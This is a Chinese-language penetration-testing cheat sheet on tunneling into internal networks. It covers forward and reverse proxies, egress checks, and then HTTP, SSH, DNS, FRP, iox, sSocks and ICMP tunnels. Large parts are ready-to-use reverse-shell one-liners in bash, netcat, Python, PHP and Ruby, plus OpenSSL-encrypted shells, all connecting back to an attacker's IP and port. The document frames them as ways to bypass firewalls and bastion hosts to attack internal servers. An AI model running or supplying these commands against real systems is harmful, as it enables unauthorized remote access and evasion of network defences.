 
# [](#%E5%86%85%E7%BD%91%E9%9A%A7%E9%81%93%E7%A9%BF%E9%80%8F)内网隧道穿透

## [](#1-%E5%9C%BA%E6%99%AF%E4%BB%8B%E7%BB%8D)1 场景介绍

### [](#11-%E7%9B%B8%E5%85%B3%E6%A6%82%E5%BF%B5)1.1 相关概念

内网穿透是：利用各种隧道技术，寻找防火墙允许的协议，混杂在正常流量中穿透，绕过网络防火墙的封锁，实现访问被封锁的目标网络。

> 被封装的数据包在隧道的两个端点之间通过公共互联网络进行路由。被封装的数据包在公共互联网络上传递时所经过的逻辑路径称为隧道。一旦到达网络终点，数据将被解包并转发到最终目的地。注意隧道技术是指包括数据封装、传输和解包在内的全过程。

隧道协议的主要作用包括：**规避防火墙**、**加密网络流量**。

常见的隧道列举如下：

-   应用层：SSH、HTTP、HTTPS、DNS。
-   传输层：TCP、UDP、常规端口转发。
-   网络层：IPv6、ICMP、GRE。

### [](#12-%E6%AD%A3%E5%90%91%E4%BB%A3%E7%90%86--%E5%8F%8D%E5%90%91%E4%BB%A3%E7%90%86)1.2 正向代理 & 反向代理

正向代理中，proxy 和 client 同属一个 LAN，对 server 透明；

反向代理中，proxy 和 server 同属一个 LAN，对 client 透明。实际上 proxy 在两种代理中做的事都是代为收发请求和响应，不过从结构上来看正好左右互换了下，所以把前者那种代理方式叫做正向代理，后者叫做反向代理。

#### [](#121-%E6%AD%A3%E5%90%91%E4%BB%A3%E7%90%86)1.2.1 正向代理

`Lhost -> proxy -> Rhost`

Lhost 为了访问到 Rhost，向 proxy 发送了一个请求并且指定目标是 Rhost，然后 proxy 向 Rhost 转交请求并将获得的内容返回给 Lhost，简单来说正向代理就是 proxy 代替了我们去访问 Rhost。

#### [](#122-%E5%8F%8D%E5%90%91%E4%BB%A3%E7%90%86)1.2.2 反向代理

`Lhost <----> proxy <----> firewall <----> Rhost`

和正向代理相反，Lhost 只向 proxy 发送普通的请求，具体让它转到哪里，proxy 自己判断，然后将返回的数据递交回来，这样的好处就是在某些防火墙只允许 proxy 数据进出的时候可以有效的进行穿透

### [](#13-%E8%BD%AC%E5%8F%91%E5%9C%BA%E6%99%AF)1.3 转发场景

#### [](#131-%E5%B8%B8%E8%A7%81%E7%9A%84%E5%9C%BA%E6%99%AF)1.3.1 常见的场景

**安全运维**：绕过堡垒机或防火墙实现对内网服务器进行远程管理

**内网渗透**：绕过堡垒机或防火墙实现对内网服务器进行攻击

目标处于网络边界，内外网都可以访问，网络边界主机未安装防火墙，所有端口都对互联网开放，此类业务场景已经极少出现。

目标处于内网，允许特定的应用层协议出网 (比如 HTTP、SSH、DNS) 等应用层协议 (3389、22、445、53、80、443 等)。

目标处于内网，不能访问外网，但是可以访问边界主机，防火墙策略限制外部网络直接访问内网的敏感端口 (3389、22、445 等)。

常见的转发方式：

-   反弹端口
-   反弹 shell
-   socks 代理

#### [](#132-%E9%98%B2%E7%81%AB%E5%A2%99%E8%A7%84%E5%88%99)1.3.2 防火墙规则

-   入网
    -   特定的端口映射 `80:80`
-   出网
    -   ICMP
    -   允许特定的协议 (HTTP、DNS、SSH、RDP)
    -   允许特定端口 (先主流端口，再全端口)

#### [](#133-%E8%BF%9E%E9%80%9A%E6%80%A7%E6%A3%80%E6%B5%8B)1.3.3 连通性检测

在建立隧道前，首先要检测目标机器是否能出网、什么协议可以出网。手动检测较麻烦，所以就有了这个工具，可配合如 wmiexec、psexec 等横向工具进行批量检测，该工具可以在 dnslog 中回显内网 ip 地址和计算机名，可实现内网中的快速定位可出网机器。

工具：[https://github.com/uknowsec/SharpNetCheck](https://github.com/uknowsec/SharpNetCheck)

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>``` | ```bash<br>Usage: SharpNetCheck -dns -host ceye.io<br>       SharpNetCheck -http -host/ip ceye.io<br>       SharpNetCheck -all -host ceye.io<br>``` |

## [](#2-%E5%8F%8D%E5%BC%B9-shell)2 反弹 shell

### [](#21-bash)2.1 Bash

#### [](#211-bash-tcp)2.1.1 Bash TCP

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>5<br>``` | ```bash<br>bash -i >& /dev/tcp/ip/port 0>&1<br>bash -i > /dev/tcp/ip/port 0<& 2>&1<br>exec 5<>/dev/tcp/ip/port;cat <&5 \| while read line; do $line 2>&5 >&5; done<br>exec /bin/sh 0</dev/tcp/ip/port 1>&0 2>&0<br>0<&196;exec 196<>/dev/tcp/ip/port; sh <&196 >&196 2>&196<br>``` |

#### [](#212-bash-udp)2.1.2 Bash UDP

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>5<br>``` | ```bash<br>Victim:<br>sh -i >& /dev/udp/10.0.0.1/4242 0>&1<br><br>Listener:<br>nc -u -lvp 4242<br>``` |

### [](#22-%E5%BA%94%E7%94%A8%E5%86%85%E5%8F%8D%E5%BC%B9-shell)2.2 应用内反弹 shell

#### [](#221-netcat)2.2.1 netcat

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>``` | ```bash<br>ncat ip port -e /bin/bash<br>nc -e /bin/bash ip port<br>rm /tmp/f;mkfifo /tmp/f;cat /tmp/f\|/bin/sh -i 2>&1\|nc ip port >/tmp/f<br>rm -f x; mknod x p && nc ip port 0<x \| /bin/bash 1>x<br>``` |

#### [](#222-python)2.2.2 python

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>``` | ```bash<br>python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ip",port));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'<br><br># windows only<br>python -c 'import socket,subprocess,os,pty;s=socket.socket(socket.AF_INET6,socket.SOCK_STREAM);s.connect(("dead:beef:2::125c",port,0,2));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=pty.spawn("/bin/sh");'<br>``` |

Python 环境下的 Tips

转成交互式 shell：`python -c 'import pty;pty.spawn("/bin/bash")'`

完全交互式 shell：

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>``` | ```bash<br>$ python -c 'import pty; pty.spawn("/bin/bash")'<br>Ctrl-Z<br>$ stty raw -echo<br>$ fg<br>$ reset<br>$ export SHELL=bash<br>//$ export TERM=xterm-256color<br>``` |

#### [](#223-php)2.2.3 PHP

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>5<br>``` | ```php<br>php -r '$sock=fsockopen("ip",port);exec("/bin/sh -i <&3 >&3 2>&3");'<br><br>php -r '$s=fsockopen("ip",port);$proc=proc_open("/bin/sh -i", array(0=>$s, 1=>$s, 2=>$s),$pipes);'<br>  <br>php -r '$s=fsockopen("ip",port);shell_exec("/bin/sh -i <&3 >&3 2>&3");'<br>``` |

#### [](#224-ruby)2.2.4 Ruby

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>``` | ```bash<br>ruby -rsocket -e'f=TCPSocket.open("ip",port).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'<br><br># windows only<br>ruby -rsocket -e 'c=TCPSocket.new("ip","port");while(cmd=c.gets);IO.popen(cmd,"r"){\|io\|c.print io.read}end'<br>``` |

### [](#23-openssl-%E6%B5%81%E9%87%8F%E5%8A%A0%E5%AF%86)2.3 openssl 流量加密

|     |     |     |
| --- | --- | --- |
| ```bash<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>``` | ```bash<br># VPS 生成 SSL 证书的公私钥对<br>openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes<br><br># 在 VPS 监听反弹 shell<br>openssl s_server -quiet -key key.pem -cert cert.pem -port 4433<br><br># 在目标上用 openssl 加密反弹 shell 的流量(linux)<br>mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 \| openssl s_client -quiet -connect IP:port > /tmp/s; rm /tmp/s<br><br># windows<br>openssl s_client -quiet -connect [ip]:[port1] \| cmd.exe \| openssl s_client -quiet -connect [ip]:[port2]<br><br># 以上命令会从 [ip]:[port1] 获取命令发送给 cmd.exe执行，然后把结果返回到 [ip]:[port2]<br><br># 因此在本机需要启动两个 s_server<br><br># 从 port1 发送命令到 cmd<br><br>openssl s_server -quiet -key key.pem -cert cert.pem -port [port1] <br># 从 port2 获取发送给 port1 的命令执行结果<br><br>openssl s_server -quiet -key key.pem -cert cert.pem -port [port2]<br>``` |

### [](#24-all-in-one)2.4 All in One

以下是几个自动生成反弹 shell 命令的网站：

[https://mrxn.net/reverse\_shell.php](https://mrxn.net/reverse_shell.php)

[https://ares-x.com/tools/reverse-shell/](https://ares-x.com/tools/reverse-shell/)

一个在线编码的网站，防止因特殊字符被过滤，也可以用在 java.lang.Runtime.exec() 的 payload 中：

[http://www.jackson-t.ca/runtime-exec-payloads.html](http://www.jackson-t.ca/runtime-exec-payloads.html)

## [](#3-%E5%BA%94%E7%94%A8%E5%B1%82%E9%9A%A7%E9%81%93)3 应用层隧道

### [](#31-http-%E9%9A%A7%E9%81%93)3.1 HTTP 隧道

#### [](#311-regeorg)3.1.1 reGeorg

**建议使用 nosocket 版**

工具地址：[https://github.com/sensepost/reGeorg](https://github.com/sensepost/reGeorg)

使用方法：

1.  上传 tunnel 文件
2.  服务端运行：`python reGeorgSocksProxy.py -p 8080 -u http://ip:port/tunnel/tunnel.jsp`

#### [](#312-neo-regorg)3.1.2 Neo-reGorg

工具地址：[https://github.com/L-codes/Neo-reGeorg](https://github.com/L-codes/Neo-reGeorg)

**Neo-reGeorg** 是一个重构了 [reGeorg](https://github.com/sensepost/reGeorg) 的项目，目的是：

-   提高 tunnel 连接安全性
-   提高可用性，避免特征检测
-   提高传输内容保密性
-   应对更多的网络环境场景

使用方法：

1.  设置密码生成 tunnel.(aspx|ashx|jsp|jspx|php) 并上传到 WEB 服务器：`python3 neoreg.py generate -k password`
2.  使用 neoreg.py 连接 WEB 服务器，在本地建立 socks5 代理：`python3 neoreg.py -k password -u http://xx/tunnel.php`

注意

注意，如果你的工具，如 nmap 不支持 socks5 代理设置，请使用 [proxychains](https://github.com/rofl0r/proxychains-ng) 等

#### [](#313-%E5%85%B6%E5%AE%83)3.1.3 其它

-   Tunna

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>``` | ```bash<br># -u 远程代理脚本地址<br># -l 表示本地监听的端口<br># -r 远程映射端口<br># -v 输出详细数据<br># -a 代理远程连接的主机地址<br>python proxy.py -u http://ip/conn.aspx -l 1080 -v<br>python proxy.py -u http://ip/conn.aspx -l 5555 -r 8080 -s -v -n<br>``` |

-   [abptts](https://github.com/nccgroup/ABPTTS)
-   [pystinger](https://github.com/FunnyWolf/pystinger)
-   …

### [](#32-ssh-%E9%9A%A7%E9%81%93)3.2 SSH 隧道

参考：[https://3nd.xyz/AD-Pentest/AD-Pentest-Hidden-Tunnel/](https://3nd.xyz/AD-Pentest/AD-Pentest-Hidden-Tunnel/)

#### [](#321-%E6%9C%AC%E5%9C%B0%E7%AB%AF%E5%8F%A3%E8%BD%AC%E5%8F%91)3.2.1 本地端口转发

在本地主机上开启端口流量转发功能

例如：在入侵者主机上执行（VPS 上执行主动连接）

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```bash<br>ssh -L 8866:192.168.10.3:23 -fN 192.168.10.2<br>``` |

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210108224514.png-water_print](assets/1699409250-8fffb8180573074fa6cac7698dcde59a.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210108224514.png-water_print")

#### [](#322-%E8%BF%9C%E7%A8%8B%E7%AB%AF%E5%8F%A3%E8%BD%AC%E5%8F%91)3.2.2 远程端口转发

在远程主机上开启端口流量转发功能

例如：在堡垒机上执行（边界主机上执行回连）

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```bash<br>ssh -R 8866:192.168.10.3:23 -fN 192.168.10.1<br>``` |

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210108225357.png-water_print](assets/1699409250-26c271d58b7d17a70892194fdb60223d.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210108225357.png-water_print")

#### [](#323-%E5%8A%A8%E6%80%81%E8%BD%AC%E5%8F%91---socket)3.2.3 动态转发 - Socket

在本地主机上开启流量动态转发功能，并配置代理

例如：在入侵者主机上执行

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```bash<br>ssh -D 1100 -fN 192.168.10.2<br>``` |

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210108225846.png-water_print](assets/1699409250-1473b3690782bea9a90e395bdbd8cac6.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210108225846.png-water_print")

### [](#33-dns-%E9%9A%A7%E9%81%93)3.3 DNS 隧道

工具 [DNScat2](https://github.com/iagox86/dnscat2)

编译好的各种版本：[https://downloads.skullsecurity.org/dnscat2/](https://downloads.skullsecurity.org/dnscat2/)

#### [](#331-%E9%85%8D%E7%BD%AE%E8%A7%A3%E6%9E%90%E8%AE%B0%E5%BD%95)3.3.1 配置解析记录

DNS 解析记录中添加一条 A 记录，名称为 `ns1` 值为 VPS IP 地址

再添加一条 NS 记录，名称为任意一个子域名，指向地址为 `ns1.yourdomain.com`

#### [](#332-%E5%AE%89%E8%A3%85-dnscat2-%E6%9C%8D%E5%8A%A1%E7%AB%AF)3.3.2 安装 dnscat2 服务端

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>``` | ```bash<br>apt-get install gem<br>apt-get install ruby-dev<br>apt-get install libpq-dev<br>apt-get install ruby-bundler<br>apt-get install git<br>git clone https://github.com/iagox86/dnscat2<br>bundle install<br>``` |

#### [](#333-%E5%90%AF%E5%8A%A8%E6%9C%8D%E5%8A%A1%E7%AB%AF)3.3.3 启动服务端

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```bash<br>ruby ./dnscat2.rb dnscat.yuming.com -e open -c mima --no-cache<br>``` |

#### [](#334-%E5%90%AF%E5%8A%A8%E5%AE%A2%E6%88%B7%E7%AB%AF)3.3.4 启动客户端

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>5<br>``` | ```bash<br># 测试能否通信<br>dnscat-client.exe -ping dnscat.yuming.com<br><br># 连接<br>dnscat-client.exe --dns domain=dnscat.yuming.com -secret mima<br>``` |

## [](#4-%E4%BC%A0%E8%BE%93%E5%B1%82)4 传输层

SOCKS4 支持 telnet、FTP、HTTP 等 TCP 协议

SOCKS5 支持 TCP 与 UDP，并支持安全认证方案

### [](#41-frp)4.1 FRP

frp 采用 Golang 编写，支持跨平台，仅需下载对应平台的二进制文件即可执行。工具地址：[https://github.com/fatedier/frp](https://github.com/fatedier/frp)

编写配置文件，先通过 `./frps -c ./frps.ini` 启动服务端，再通过 `./frpc -c ./frpc.ini` 启动客户端。

服务端部署在我们具有公网 IP 的服务器上，客户端放在我们拿到权限的跳板服务器上，双端都需要对配置文件进行配置。

#### [](#411-%E6%9C%8D%E5%8A%A1%E7%AB%AF)4.1.1 服务端

|     |     |     |
| --- | --- | --- |
| ```bash<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>``` | ```fallback<br>[common]<br># frp 服务端端口<br>bind_port = 7000<br># 仪表盘端口<br>dashboard_port = 8888<br># frp服务端密码<br>token = 123456<br># 仪表盘默认账号密码<br>dashboard_user = admin<br>dashboard_pwd = admin<br>``` |

启动 FRP：`frps -c frps.ini`

#### [](#412-%E5%AE%A2%E6%88%B7%E7%AB%AF)4.1.2 客户端

|     |     |     |
| --- | --- | --- |
| ```bash<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>``` | ```fallback<br>[common]<br>server_addr = VPS IP<br>server_port = 7000<br># 与 vps 保持一致<br>token = 123456<br>[ssh]<br>type = tcp<br>local_ip = 127.0.0.1<br>local_port = 22<br>remote_port = 7000<br>use_encryption = true<br>use_compression = true<br>``` |

### [](#42-iox)4.2 iox

iox 是一个端口转发 & 内网代理工具，功能类似于`lcx`/`ew`，但是比它们更好。

工具地址：[https://github.com/EddieIvan01/iox](https://github.com/EddieIvan01/iox)

#### [](#421-%E7%AB%AF%E5%8F%A3%E8%BD%AC%E5%8F%91)4.2.1 端口转发

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>``` | ```bash<br># 端口转发 - 从本地 8888 转到 9999<br>./iox fwd -l 8888 -l 9999<br><br># 端口转发 - 从本地 8888，把流量转发到 1.1.1.1:9999<br>./iox fwd -l 8888 -r 1.1.1.1:9999<br><br># 连接 1.1.1.1:8888 和 1.1.1.1:9999, 在两个连接间转发<br>./iox fwd -r 1.1.1.1:8888 -r 1.1.1.1:9999<br>``` |

#### [](#422-%E4%BB%A3%E7%90%86)4.2.2 代理

|     |     |     |
| --- | --- | --- |
| ```bash<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>``` | ```bash<br># 在本地 0.0.0.0:1080 启动 Socks5 服务 - 正向代理<br>./iox proxy -l 1080<br><br><br># 反向代理<br># 在被控机开启 Socks5 服务，将服务转发到公网 VPS<br>./iox proxy -r 1.1.1.1:9999<br><br># 在 VPS 上转发 0.0.0.0:9999 到 0.0.0.0:1080<br># 你必须将两条命令成对使用，因为它内部包含了一个简单的协议来控制回连<br>./iox proxy -l 9999 -l 1080       // 注意，这两个端口是有顺序的<br><br># 接着连接内网主机<br># socks5://1.1.1.1:1080<br>proxychains rdesktop 192.168.0.100:3389<br>``` |

### [](#43-ssocks)4.3 sSocks

sSocks 是一个 socks 代理工具套装，可用来开启 socks 代理服务，支持 socks5 验证，支持 IPV6 和 UDP，并提供反向 socks 代理服务，即将远程计算机作为 socks 代理服务端，反弹回本地，极大方便内网的渗透测试。

工具地址：[http://sourceforge.net/projects/ssocks/](http://sourceforge.net/projects/ssocks/)

-   正向代理

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```bash<br>./ssocksd --bind 192.168.172.131 --port 1080<br>``` |

-   反向代理

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>5<br>``` | ```bash<br># 攻击者机器监听 6020 端口转发到 6010<br>./rcsocks -l 6020 -p 6010 -vv<br><br># 受害者反向连接代理主机 6010 端口<br>./rssocks -s 攻击者IP:6010 -vv<br>``` |

## [](#5-%E7%BD%91%E7%BB%9C%E5%B1%82)5 网络层

### [](#51-icmp-tunnel)5.1 ICMP Tunnel

工具名称：[ICMPSH](https://github.com/inquisb/icmpsh)

#### [](#511-%E6%9C%8D%E5%8A%A1%E7%AB%AF)5.1.1 服务端

服务端首先需要关闭 ICMP 回显：`sysctl -w net.ipv4.icmp_echo_ignore_all=1`

安装服务端：

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>``` | ```bash<br>apt-get install python-impacket<br>python icmpsh_m.py 本机IP 目标机器公网IP<br>``` |

#### [](#512-%E5%AE%A2%E6%88%B7%E7%AB%AF)5.1.2 客户端

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```bash<br>icmpsh.exe -t 目标IP -d 500 -b 30 -s 128<br>``` |

